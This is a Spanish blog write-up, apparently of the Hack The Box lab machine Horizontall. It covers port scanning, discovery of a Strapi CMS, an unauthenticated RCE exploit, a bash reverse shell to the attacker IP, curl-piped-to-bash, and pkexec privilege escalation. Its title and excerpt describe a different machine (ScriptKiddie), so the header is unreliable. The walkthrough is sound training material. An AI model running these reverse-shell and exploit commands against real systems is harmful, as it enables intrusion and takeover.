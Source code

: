```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. " 
date: 2024-04-19
classes: wide
header:
  teaser: /assets/images/htb-horizontall/Horizontall.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - Strapi
  - Directorios
---
```


![](/assets/images/htb-horizontall/Horizontall.png)

Horizontall is an easy difficulty Linux machine were only HTTP and SSH services are exposed. Enumeration of the website reveals that it is built using the Vue JS framework. Reviewing the source code of the Javascript file, a new virtual host is discovered. This host contains the `Strapi Headless CMS` which is vulnerable to two CVEs allowing potential attackers to gain remote code execution on the system as the `strapi` user. Then, after enumerating services listening only on localhost on the remote machine, a Laravel instance is discovered. In order to access the port that Laravel is listening on, SSH tunnelling is used. The Laravel framework installed is outdated and running on debug mode. Another CVE can be exploited to gain remote code execution through Laravel as `root`. 

## Portscan

```
Ricart0@kali:/home/kali/HTB/Horizontall/nmap -> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.11.105 -oG allports
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 23:30 CET
Initiating Ping Scan at 23:30
Scanning 10.10.11.105 [4 ports]
Completed Ping Scan at 23:30, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:30
Scanning 10.10.11.105 [65535 ports]
Discovered open port 80/tcp on 10.10.11.105
Discovered open port 22/tcp on 10.10.11.105
Completed SYN Stealth Scan at 23:30, 12.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.105
Host is up, received echo-reply ttl 63 (0.071s latency).
Scanned at 2024-02-21 23:30:41 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.47 seconds
           Raw packets sent: 65841 (2.897MB) | Rcvd: 65841 (2.634MB)

```
Y con esto analizamos los puertos abiertos:
```
Ricart0@kali:/home/kali/HTB/Horizontall/nmap -> nmap -sCV -p22,80 10.10.11.105 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 23:34 CET
Nmap scan report for 10.10.11.105
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.43 seconds
```
## Directorios existentes

Obtenemos del escaneo de puertos la url de http://horizontall.htb, asi que vamos a adentrarnos a ver que tiene, y vemos que no hay nada que explotar, por tanto, vamos a buscar directorios existentes de la página web a ver si podemos encontrar algo: 
```
Dirsearch started Wed Feb 21 23:52:50 2024 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://horizontall.htb/

301   194B   http://horizontall.htb/js    -> REDIRECTS TO: http://horizontall.htb/js/
301   194B   http://horizontall.htb/css    -> REDIRECTS TO: http://horizontall.htb/css/
200     4KB  http://horizontall.htb/favicon.ico
301   194B   http://horizontall.htb/img    -> REDIRECTS TO: http://horizontall.htb/img/
403   580B   http://horizontall.htb/js/
```
Comprobamos su contenido y no deja entrar en ningun directorio.
Asi que lanzamos un curl a la url de tipo get para analizar el contenido de la pagina y posibles urls en el código, lo filtramos para que nos muestre lo que hay entre comillas '".*?"' y que contienen app, tambien que no se repita ningun resultado:
```
Ricart0@kali:/home/kali/HTB/Horizontall -> curl -s -X GET "http://horizontall.htb/" | grep -oP '".*?"' | grep app\. | sort -u
"app"
"/css/app.0f40a091.css"
"/js/app.c68eb462.js"
```
Ahora si, en el contenido de "/js/app.c68eb462.js", encontramos contenido, asi que volvermos a filtrar por comillas,  en busca de una url, y filtramos por http para encontrar url's.

```
curl -s -X GET "http://horizontall.htb/js/app.c68eb462.js" | grep -oP '".*?"' | grep http | sort -u                                                                 130 ⨯
"http://api-prod.horizontall.htb/reviews"
"https://horizontall.htb"
"http://www.w3.org/2000/svg"
```

## Página web

Encontramos esta url que parece tener contenido "http://api-prod.horizontall.htb/reviews", asi que la añadimos a /etc/hosts y buscamos en el navegador.

Una vez sabido esto, podemos volver a hacer una búsqueda de directorios como antes, en la nueva pagina web. Esto nos devuelve que existe un directorio /admin, que si ejecutamos en el navegador nos lleva a un panel de autenticación:

![](/assets/images/htb-horizontall/pagina1.png)

Como vemos es un strapi, asi que vamos a buscar posibles sploits para ejecutar:
```
Ricart0@kali:/home/kali/HTB/Horizontall -> searchsploit strapi                                                    
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                     |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                                                                                 | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                                                                               | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                         | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                                                                                           | nodejs/webapps/50716.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Intrusión
Tenemos un sploit para la ocasion en la que no estamos autenticados, lo vamos a usar:
![](/assets/images/htb-horizontall/int1.png)

Ya tendriamos ejecucion de comandos, asi que vamos a intentar montarnos una reverse shell mandando un curl a nuestra ip, montandonos un servidor en python3 y escuchando por el puerto 443. Creamos un index.html que devuelva una bash:
```
Ricart0@kali:/home/kali/HTB/Horizontall/exploits -> cat index.html         
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.6/443 0>&1 
```
Y ahora mandamos un curl y que lo interprete con bash: curl http://10.10.16.6/ | bash
Y nos montamos el servidor en python(python3 -m http.server 80) y escucha por el puerto 443(nc -nvlp 443). Y estamos dentro:
![](/assets/images/htb-horizontall/int2.png)

## Escalada de privilegios

En el directorio home encontramos la flag del usuario:
```
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
a3eb4b24b2c7c90ec8bfcde966163c55
```
Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra disponible, muy vulnerable:
```
strapi@horizontall:~/myapi/config/environments/development$ which pkexec
which pkexec
/usr/bin/pkexec
```
Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos (zip -r comprimido.zip CVE-2021-4034). Desde el equipo de la víctima, obtenemos el zip de nuestro equipo(wget http://10.10.16.6/comprimido.zip). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
strapi@horizontall:~/myapi/config/environments/development/CVE-2021-4034$ ./cve-2021-4034
<ronments/development/CVE-2021-4034$ ./cve-2021-4034                      
whoami
root
```
A partir de ahi, buscamos la flag de root y ya lo tenemos. 
